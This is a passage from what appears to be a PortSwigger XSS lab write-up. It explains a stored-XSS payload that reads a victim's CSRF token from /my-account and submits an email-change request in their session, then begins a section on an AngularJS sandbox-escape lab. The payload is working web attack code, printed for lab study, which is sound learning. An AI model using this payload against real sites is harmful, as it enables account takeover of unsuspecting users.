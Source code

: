 ![](../../.gitbook/assets/portswigger-xss-writeup-image-18.png)

This process does not require any authentication from the user (no password validation), thus it is vulnerable to CSRF. 

One can use this payload to exploit the lab:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

What this does is send a HTTP request when the user views the comment via executing Javascript.

## Lab 24: AngularJS Sandbox Escape w/o Strings

To solve this, call `alert()`. This lab uses AngularJS as indicated by the `ng-app` tags:

![](../../.gitbook/assets/portswigger-xss-writeup-image-20.png)

